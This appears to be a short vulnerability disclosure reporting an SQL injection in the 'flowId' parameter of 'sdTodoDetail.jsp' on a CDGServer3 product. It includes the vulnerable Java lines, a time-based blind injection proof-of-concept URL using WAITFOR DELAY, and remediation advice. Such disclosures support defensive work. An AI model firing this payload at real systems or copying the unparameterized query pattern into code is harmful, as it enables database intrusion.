 ![image-20250116160551381](./assets/image-20250116160551381.png)



# Vulnerability Report

## Vulnerability Type

SQL Injection

## Vulnerability Description

The `flowId` parameter in the `sdTodoDetail.jsp` interface is not properly validated and sanitized, leading to a SQL injection vulnerability. An attacker can craft a malicious `flowId` parameter to execute arbitrary SQL queries, potentially accessing or modifying sensitive information in the database.

## Vulnerable Code

```java
String flowId = request.getParameter("flowId");
………………
FlowDao dao = new FlowDao();
Flow flow = dao.getAppById(flowId);
```

## POC

An attacker can test the vulnerability using the following POC:

```
https://uri/CDGServer3/sdTodoDetail.jsp?flowId=1';WAITFOR DELAY '0:0:10'--
```

## Impact Scope

This vulnerability may affect all functionalities that use the `sdTodoDetail.jsp` interface and allow user submission of the `flowId` parameter.

## Remediation Suggestions

1. Strictly validate and sanitize the user input for the `flowId` parameter to ensure it contains only legitimate values.
2. Use prepared statements to execute database queries to prevent SQL injection attacks.
3. Conduct regular security audits and code reviews to identify and remediate potential security vulnerabilities.
